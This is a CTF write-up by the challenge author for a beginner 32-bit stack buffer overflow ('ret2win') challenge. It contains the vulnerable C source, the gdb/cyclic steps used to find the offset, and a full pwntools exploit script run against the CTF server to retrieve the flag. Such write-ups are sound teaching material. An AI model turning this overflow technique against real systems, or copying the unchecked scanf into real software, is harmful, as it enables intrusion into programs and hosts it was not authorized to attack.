



# For The Win!

## Pwn

### The win is there!  All you need to do is grab it.

> NOTE1:  The address for the win() function in the attached binary is off by 0x10 from the binary on the remote server.  If you add 0x10 to the win() function, it will work.

TL;DR - compiling the binary in the Docker container on a different OS changed the addresses from the locally built binary.
The note above was added after the CTF started.  When I originally created the binary for the challenge, I did it from the command line and wrote a solver 
script for it, which worked.  But, and I don't remember why, there was trouble copying the binary to the Docker container, so I compiled the binary in the 
container.  Worked like a charm, except the address was now off by 0x10.  I haven't had a chance to figure out why.  The OS for the host it's running is 
Amazon Linux 2 and the Docker container is Ubuntu, and the host I originally created it on is Kali Debian.  I'm not sure if it's because of Docker or the 
different base OS's, but lesson learned.

Anyway, this challenge came with a binary and the source code.

```C
#include <stdio.h>
#include <stdlib.h>

// gcc ftw.c -o ftw -fno-stack-protector  -no-pie -m32

FILE *fptr;
char daflag[32];

void win(long first, long second) {
   fptr = fopen("./flag.txt", "r");
   if (fptr == NULL) {
	printf("No flag.txt file found\n");
	fflush(stdout);
	exit(1);
   }
   fgets(daflag, 32, fptr);
   printf("Wow! Have a flag: %s\n\n", daflag);
   fflush(stdout);
}

void whodis() {
    char buffer[32];

    printf("Enter your name: ");
    fflush(stdout);
    scanf("%s", buffer);
    printf("\nI don't know you, %s. Cya!\n", buffer);
}

int main() {
    whodis();
    return 0;
}
```
There is a win() function that prints the flag if called, and a whodis() function that prompts the user for input and prints it back to the screen.  
The issue is that the buffer variable is 32 bytes, but scanf reads as many characters as the user enters.  Opening it up in gdb-pwndbg and looking 
at the primary functions using `info functions`, you see:



From this, we can see that 0x080491c6 is the address of the win() function in this binary. (see NOTE1 if you got 0x080491b6)

Next, run the binary in the debugger and input a bunch of characters to overflow the buffer.  In this case, I used the pwntools `cyclic` command to generate 
100 characters, and I pasted them into the prompt.



Since this is a 32-bit binary, we need to know what is in the EIP register when the buffer overflows.  In this case, it's "laaa", and if you put that in 
`cyclic` with the lookup switch, we find it starts at the 44th character.



With these two pieces of information, I wrote a pwntools script with a payload of 44 characters, then added the address of the win() function:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './ftw'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 44

# Start program
io = start()
context.log_level = "DEBUG"


# Build the payload
payload = flat(
    offset * b"A",
    p32(0x080491b6),
)

write('payload', payload)

# Send the payload

io.sendlineafter(b'name: ', payload)
#io.recvuntil(b'Cya!\n')
print(io.recvline().decode().strip())
print(io.recvline().decode().strip())
print(io.recvline().decode().strip())
print(io.recvline().decode().strip())
# Got Shell?
io.close()
```

```sh
% python3 solver.py REMOTE ctf.teractf.com 2229 SILENT

I don't know you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAƑ\x04\x08. Cya!
Wow! Have a flag: teractf{1_gue55_ur_init_2_w1n_1
```

> NOTE2: Notice how the flag doesn't end with a "}"?  That's because the goofball who wrote the code (read: me) made the buffer for the flag too small. :rage: :rage: :rage: It's set at 32 bytes, but the flag is 33 characters and needs to end in a null byte (\0), so it needs 34 characters.  So everyone who sent me the flag from above, I gave the "t}" to them.  Some figured it out on their own...Kudos to them! 


**teractf{1_gue55_ur_init_2_w1n_1t}**

